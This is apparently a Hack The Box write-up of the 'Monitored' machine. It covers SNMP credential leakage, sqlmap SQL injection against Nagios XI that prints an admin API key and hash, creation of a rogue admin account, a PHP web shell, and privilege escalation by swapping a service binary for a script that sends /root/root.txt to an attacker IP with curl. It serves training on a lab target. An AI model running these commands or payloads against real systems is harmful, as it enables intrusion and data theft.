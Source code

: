 ```yaml
---
title: HTB Monitored Writeup
author: Elus1nist
layout: post
date: 16 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/d4988810825d26acb2e84ca0ac9feaf4.png
---
```

Welcome! This is my writeup of the new Season 4 Medium machine from HTB, Monitored. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.248 
```
This gives us the scan results of:

```
Nmap scan report for 10.10.11.248
Host is up (0.082s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `nagios.monitored.htb` and a redirect so a dead end
- Port 389: LDAP - Since we have this service we can utilize ldap search or also assume SNMP and enumerate that
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating SNMP

Enumerating SNMP with `public` community string:
```
snmpwalk -v2c -c public 10.10.11.248
STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc ~~redacted~~"
```
This gives us a set of credentials that can be used to log into - 
https://nagios.monitored.htb/nagios/

Once logged in we can then follow the security advisory and launch an SQL Injection attack against an admin endpoint

---
---
## SQL Injection to dump User data

Using the information from a security advisory, I leveraged SQLMap to dump the backend DB:
```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users
```
| user_id | email | name | api_key | enabled | password | username | 
|---|---|---|---|---|---|---|
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin

We can now interact with the nagios API as an admin user!

---
---
## NagiosXI Admin Pivot

We can now use the nagiosxi API to create a new admin user:
```
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=ElusnAdmin&password=myadmin&name=myadmin&email=myadmin@localhost&auth_level=admin"
```
We can now login to the nagiosxi portal as an admin

*Insert Image here*

---
---
## Setting Up for PHP File Upload

The following steps were taken so as to be 
- Login to /nagiosxi/
- Go to https://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/manage.php
- Upload jpg -> rename to .htaccess -> rename back to test.jpg
- Upload php shell with jpg magic bytes: <?php system($_GET['cmd']); ?>;
- Visit the web shell and get a bash reverse shell
- pop shell as www-data

---
---
## Privilege Escalation Path

As an easy win, I first checked the output of `sudo -l` for commands that could be run as www-data:
```
sudo -l
User www-data may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```

A subsequent search of the linpeas output shows us a writable service executable path:
`/usr/local/nagios/bin/nagios`

---
---
## Privilege Escalation Exploit

### Step 1:

So first we generate a reverse shell executable on the attacker local box `rootrev.sh`:
```
#!/bin/bash
ls_content=$(<"/root/root.txt")
curl -o test "http://10.10.16.44:9001/${ls_content}"
```

### Step 2:
Spin up a python web server (This will be used to fetch stage 1 of the exploit + Recieve data from exfil)
```
sudo python3 -m http.server 9001
```

### Step 3:
Replace nagios executable on target box
```
curl http://10.10.16.44:9001/rootrev.sh -o /usr/local/nagios/bin/nagios
```

### Step 4:
Restart nagios service and gain root flag

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```

<img src="https://gifsec.com/wp-content/uploads/2022/09/yay-gif-6.gif">